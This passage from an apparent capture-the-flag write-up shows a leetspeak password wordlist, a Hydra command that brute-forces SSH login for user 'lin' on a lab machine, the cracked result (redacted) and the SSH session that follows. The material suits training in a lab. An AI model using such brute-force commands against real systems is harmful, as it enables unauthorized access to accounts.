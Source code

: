 ```
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
##### 4. What service can you bruteforce with the text file found?
This seems to be a list of potential passwords for the user. Time for some good old brute forcing with [hydra]:

`hydra -l lin -P locks.txt ssh://MACHINE_IP`

```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-06 18:49:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://MACHINE_IP:22/
[22][ssh] host: MACHINE_IP   login: lin   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-06 18:49:54
```

##### 5. What is the users password? 
` [22][ssh] host: MACHINE_IP   login: lin   password: [REDACTED]`

And there we go, after just a few minutes we where able to find the correct password for the user `lin`. We can now SSH in to the machine: `ssh lin@MACHINE_IP`

```
The authenticity of host '10.10.84.240 (10.10.84.240)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? es
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added 'MACHINE_IP' (ED25519) to the list of known hosts.
lin@MACHINE_IP's password: [REDACTED]
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from MACHINE_IP
```